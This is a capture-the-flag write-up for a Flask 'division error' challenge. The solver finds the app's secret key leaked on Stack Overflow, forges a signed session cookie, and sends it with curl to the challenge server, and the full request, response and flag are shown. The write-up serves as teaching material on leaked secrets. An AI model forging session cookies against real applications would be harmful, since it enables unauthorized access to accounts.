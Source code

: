 ### Solved by Swappage

In this problem we were provided with the following python flask web application

```python
from flask import Flask, render_template, session, request
app = Flask(__name__)
app.secret_key = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

@app.route('/',methods=['GET','POST'])
def index():
    if request.method == 'POST':
        a = int(request.form['a'])
        b = int(request.form['b'])
        # Updated 11/19/2014 by Steve Katz - Couldn't figure out why this was returning the wrong result, so asked online
        result = a*1.0/b
        return render_template('index.html',session=session,result=result)
    if 'loggedin' in session and session['loggedin']:
        flag = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
        return render_template('index.html',session=session,flag=flag)
    return render_template('index.html',session=session)

@app.route('/login',methods=['GET','POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin' and password == 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX':
            session['loggedin'] = True
            return render_template('login.html',session=session,loggedin=True)
        return render_template('login.html',session=session,loggedin=False)
    return render_template('login.html',session=session)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

And we needed to successfully login.
The division error wasn't the real problem, the application doesn't have a flaw itself, yet if we look at the comment at line 10
we can see that the author asked online for help on the problem

By searching on google we could find the question about the division error problem on stack overflow, and the author of the question, while posting the code snipplet
forgot to remove the application secret key used to sign the session cookies.

By using that secret key and replacing it in the source code, we could run the server locally, forge a correctly signed session cookie and send it to the real application to retrieve the flag

    $ curl -b 'session=eyJsb2dnZWRpbiI6dHJ1ZX0.CB7KBQ.aS33adDXgYjBWYdGAg2MuqjjV1A; Path=/; HttpOnly' http://division-error.p.tjctf.org -v

    * About to connect() to division-error.p.tjctf.org port 80 (#0)
    *   Trying 137.117.56.127...
    * connected
    * Connected to division-error.p.tjctf.org (137.117.56.127) port 80 (#0)
    > GET / HTTP/1.1
    > User-Agent: curl/7.26.0
    > Host: division-error.p.tjctf.org
    > Accept: */*
    > Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZX0.CB7KBQ.aS33adDXgYjBWYdGAg2MuqjjV1A; Path=/; HttpOnly
    >
    * additional stuff not fine transfer.c:1037: 0 0
    * HTTP 1.1 or later with persistent connection, pipelining supported
    < HTTP/1.1 200 OK
    < Server: nginx/1.6.2 (Ubuntu)
    < Date: Wed, 29 Apr 2015 11:31:30 GMT
    < Content-Type: text/html; charset=utf-8
    < Content-Length: 2327
    < Connection: keep-alive
    < Set-Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZX0.CCJSkg.rya2_MVigs5eluOD5hLhOyAbwdU; HttpOnly; Path=/
    <
    <!DOCTYPE html>
    <html>
    <head>
    ...
    <p>Wow, you did it! The flag is woah_that_was_some_nice_session_magic.</p>

the flag is

    woah_that_was_some_nice_session_magic

